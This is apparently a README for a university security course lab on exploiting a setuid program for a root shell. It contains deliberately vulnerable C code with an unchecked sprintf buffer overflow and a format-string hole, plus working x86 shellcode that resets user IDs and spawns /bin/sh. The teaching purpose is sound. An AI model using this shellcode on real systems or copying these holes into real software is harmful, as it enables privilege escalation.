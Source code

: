 # Language-Based-Security
Repository of the exercises and the project of the Chalmers Language-Based Security Course.

##Introduction
The purpose of this lab is to show how a vulnerability in a program can be exploited to provide an attacker with a shell running with elevated rights.

In this lab, you are given a source of a vulnerable program that is installed on the system. This program has the user set-ID(s) bit set, which means that upon execution the proram will right with the rights of the owner of the file and not the right of the current user. The real user ID will still be the ID of the current user, but the effective user ID will be that of the owner of the file. For example, a shell with the s bit set will be executed with the rights of the owner of the program file.

______________________________________________________________________________________________________________________

##The vulnerable program
The vulnerable program addhostalias is used for adding entries to the hosts file of the user. The source code of the program is also included in the virtual machine for reference.

```C
#include <stdio.h>
#include <stdlib.h>
 
 
#define HOSTNAMELEN 256
#define IPADDR      1
#define HOSTNAME    2
#define ALIAS       3
 
#define HOSTFILE "/home/r00t/hosts"
 
 
void add_alias(char *ip, char *hostname, char *alias) {
  char formatbuffer[256];
  FILE *file;
 
  sprintf(formatbuffer, "%s\t%s\t%s\n", ip, hostname, alias);
 
  file = fopen(HOSTFILE, "a");
  if (file == NULL) {
    perror("fopen");
    exit(EXIT_FAILURE);
  }
 
  fprintf(file, formatbuffer);
  if (fclose(file) != 0) {
    perror("close");
    exit(EXIT_FAILURE);
  }
}
 
 
int main(int argc, char *argv[]) {
  if (argc != 4) {
    printf("Usage: %s ipaddress hostname alias \n", argv[0]);
    exit(EXIT_FAILURE);
  }
 
  add_alias(argv[IPADDR], argv[HOSTNAME], argv[ALIAS]);
  return(0);
}
```

This program is compiled and has set-uid flag of the user r00t

```ShellSession
ls -l /usr/bin/addhostalias
-rwsr-xr-x    1 r00t     r00t        14512 Apr  5 11:48 /usr/bin/addhostalias
```

______________________________________________________________________________________________________________________

##Shellcode
The following shellcode is useful to build a buffer overrun. It avoids nul-characters, and fits in the buffer in the vulnerable program. This file, and a Python/Perl compatible version are included in the virtual machine.

```ShellSession
#ifndef _SHELLCODE_H 
#define _SHELLCODE_H 

static char shellcode[] = 
"\xb9\xff\xff\xff\xff" 
"\x31\xc0" //sets real user id from effective user id. 
"\xb0\x31" 
"\xcd\x80" 


"\x89\xc3" // copy the value to ebx 
"\x31\xc0" 
"\xb0\x46" 
"\xcd\x80" 

"\x31\xc0" 
"\xb0\x32" 
"\xcd\x80" 


"\x89\xc3" 
"\xb0\x31" 
"\xb0\x47" //sets real group id from effective user id. 
"\xcd\x80" 

"\x31\xc0" 
"\x31\xd2" 
"\x52" 
"\x68\x2f\x2f\x73\x68" 
"\x68\x2f\x62\x69\x6e" 
"\x89\xe3" 
"\x52" 
"\x53" 
"\x89\xe1" 
"\xb0\x0b" 
"\xcd\x80" 
"\x31\xc0" 
"\x40" 
"\xcd\x80"; 

#endif /* _SHELLCODE_H */
```